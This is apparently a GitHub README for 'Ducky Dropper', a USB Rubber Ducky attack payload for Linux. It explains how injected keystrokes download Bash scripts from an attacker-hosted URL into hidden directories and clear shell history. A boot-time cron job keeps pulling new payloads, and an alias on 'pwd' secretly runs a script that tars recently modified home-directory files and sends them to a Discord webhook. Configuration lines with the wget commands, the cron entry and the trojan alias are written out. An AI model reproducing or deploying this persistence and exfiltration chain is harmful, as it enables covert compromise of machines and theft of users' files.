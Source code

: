 <div align="center">
  
# Ducky Dropper


</div>

REM TITLE: Ducky_Dropper

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Linux (tested on Kali Linux release 2025.2)


## What is Ducky Dropper?
Ducky Dropper is a three part payload:
1. The DuckyScript Payload - [DS_payload.txt](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/DS_payload.txt)
2. The Bash script dropper - [cron_dropper.sh](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/cron_dropper.sh)
3. The Bash script payload - [payload.sh](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/payload.sh)

Ducky Dropper is **proof of concept** payload that uses the DS_payload.txt loaded onto the Hak5 USB Rubber Ducky to grab two Bash scripts (cron_dropper.sh and payload.sh) hosted on an attackers' Github. This uses Github (or could be configured with other hosting platforms) as a way to host payloads to be persistently dropped onto the target system. Once the payloads are downloaded to the target machine, the DuckyScript payload creates two hidden directories to store the respective scripts. It gives the scripts execution permissions, sets the dropper script (`cron_dropper.sh`) as a cronjob to be ran 60 seconds after machine boot, and then creates an alias for the `pwd` command to act as a trigger for payload script (`payload.sh`) execution. The terminal history is unset immediately after the terminal is popped to obfuscate the fact that code was injected, and then closes when done. Total injection time is ~4.5 seconds.

Ducky Dropper is deisgned so that once injected on the victim machine via the DuckyScript payload, when the target user enters the trigger command (in this case `pwd`, but can be changed, spoken about later), it will execute the `payload.sh` stored in `~/.confg`.

60 seconds after the machine is booted, the dropper becomes active. The dropper will first check to see if the machine is internet connected by sending a `ping` to hak5.org. If internet connectivity is *not* present, the dropper will exit and lay dormant until next boot. If internet connectivity *is* present, the dropper will grab a payload from the configured host site (Github) path. It will then calculate and compare an sha256sum checksum of the newly downloaded payload against the current payload present in `~/.confg` (the payload that is currently executed via the trigger command). If the checksums *match*, the newly downloaded payload is discarded (because it's the same as what is already present). If the checksums *do not* match the payload in ~/.confg` is replaced by the newly downloaded payload and given execution permissions. This allows for updated payloads to be grabbed via the dropper and executed by the trigger command. The attacker is able to maintain persistence on the target system and send it payloads of the attackers' choice to be grabbed on machine boot and executed by the trigger command.

**Configurations for all scripts/payloads can be changed, such as changing the trigger command, payload path for the dropper, etc, and is discussed below.**

**Testing Environment**

For this PoC I have set the DuckyScript payload to grab two Bash sripts (`cron_dropper.sh` and `payload.sh`) from Github. These are for demonstration purposes only to show how the payload works. The `payload.sh` is a Bash payload that when executed, checks for internet connectivity, looks for files inside of the users home folder that have been modified in the last 24 hours, ff found tarballs them and exfiltrates them to a Discord webhook. If you would like to test this payload, you will need to manually add your Discord webhook to line 37 of the `payload.sh` after the DuckyScript payload has finished its' injection. This would normally be pre-configuerd on the paylod being hosted and grabbed so that when the payload is dropped it is fully configured, but it's not cause PoC.

After the Discord webhook has been configured, running the `pwd` command will silently exfiltrate modified files:
<img width="760" height="151" alt="t2" src="https://github.com/user-attachments/assets/2968a7b0-e95b-46a8-ba61-dc52b4296017" />

Again, please remember that these provided payloads are PoC only, and to not use them in their "demo" configuration to attack or persist on target machines.

---

### DuckyScript Payload (DS_payload.txt)

1. The Ducky will pop a terminal, unset the history file, and then download the two aforementioned Bash scripts (`cron_dropper.sh` and `payload.sh`).
2. Creates two hidden directories inside of the users home folder (`.cronfg` and `.confg`) that place and host the aforementioned Bash scripts.
		- `.cronfg` is the directory responsible for hosting the `cron_dropper.sh` script
		- `.confg` is the directory responsible for hosting the `payload.sh` script
3. Grants execution permissions to both scripts.
4. Sets up `cron_dropper.sh` as a cronjob to be ran 60 seconds after the target machine is booted.
5. Creates an alias for `pwd` that will execute `pwd` as it should *and* executes the `payload.sh` script.
6. Closes terminal to obfuscate activity.

**Configuration:**
- The attackers' Github path to where the dropper is hosted must be defiend in line 8.
	- e.g., `DEFINE #CRON_DROPPER https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/cron_dropper.sh`
	
- The attackers' Github path to where the payload is hosted must be defiend in line 9.
	- e.g., `DEFINE #PAYLOAD https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/payload.sh`

- The trigger command by default is `pwd`, this can be altered by changing the command in line 30.
	- e.g., `STRINGLN alias pwd='pwd; (/home/$USER/.confg/*.sh > /dev/null 2>&1 & )'` (commands are changed here --> `pwd='pwd`)

---

### The Dropper (cron_dropper.sh)

1. The dropper allows attacker persistence to the target machine.
2. Grabs new payloads hosted via Github (or your hosting platform choice) to be passed to and executed by the trigger command.
3. Performs internet connectivity checks before executing the entirety of the payload.
4. Performs a checksum function to identify a change in payload.
5. Places new payload into the `~/.confg` directory to be executed by the trigger command.

**Configuration**
- The frequency of the dropper "phoning home" for payloads can be altered in the DS_payload.txt. By default, it is sent to grab payloads 60 seconds after machine boot. If you would like to change this, it will need to be configured prior to initial DuckyScript payload injection. This can be altered on line 26 of the `DS_payload.txt` file.
	- e.g., `"@reboot sleep 60 && ~/.cronfg/cron_dropper.sh"` - change the `@reboot sleep 60` to the desired configuration.
	
- The source of where the dropper grabs payloads from cannot be changed post DuckyScript injection.
	- e.g., `wget -q -P /home/$user/.confg_tmp https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/payload.sh` - The dropper will always look to this URL path for new payloads. To create updated payloads, you would simply edit the code of `/payload.sh` on the hosting platform. It is important to note, do not change the URL path/file name after initial DuckyScript injection, this will break the hash function and cause issues.
	
--

### The Payload (payload.sh)
(demo payload)

 When the `pwd` command is entered, the following happens:
1. Checks for internet connectivity, if not present, exits, else:
2. Search for files in the target users home directory that have been modified in the last 24 hours.
3. If files, tarballs them, and then exfiltrates them to a Discord webhook.
As this is a demo payload, you will need to manually configure the Discord webhook (explained above).

**A note on configuration of payload.sh and cron_dropper.sh**
It is important to note that whatever choice of naming convention used to name the payloads and dropper, they should be used consistently (so pick something you like). This will prevent errors with the cheksum process.






